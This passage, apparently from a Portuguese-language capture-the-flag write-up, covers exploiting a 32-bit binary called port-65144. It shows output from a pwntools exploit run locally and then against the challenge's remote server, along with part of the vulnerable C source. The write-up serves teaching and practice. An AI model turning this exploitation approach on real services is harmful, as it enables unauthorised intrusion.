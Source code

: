 A saída:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2370
=========================
what the process returned
[*] Process '/home/reisraff/workdir/challs/port-65144/port-65144' stopped with exit code 0 (pid 2370)
Enter your buffer: gotcha func1
gotcha func2
FLAG TEST
```

Agora temos que executar remotamente, já que o nome binário é port-65144, vamos tentar esta porta:

```python
# ...
p = pwn.remote('173.230.139.237', '65144')
# ...
```

saída:

```
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 2375
[+] Opening connection to 173.230.139.237 on port 65144: Done
=========================
what the process returned
Enter your buffer: gotcha func1
gotcha func2
reisraff{D47a_3xecu710n_Pr3ven71on_owned}

```

O código-fonte deste desafio é:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <fcntl.h>
#include <sys/mman.h>

bool flag1 = false;
bool flag2 = false;

void func1(int num1, int num2) {
    if (156 == num1 && 300 == num2) {
        flag1 = true;
        puts("gotcha func1");
    }
}

void func2(int num1, int num2, int num3) {
```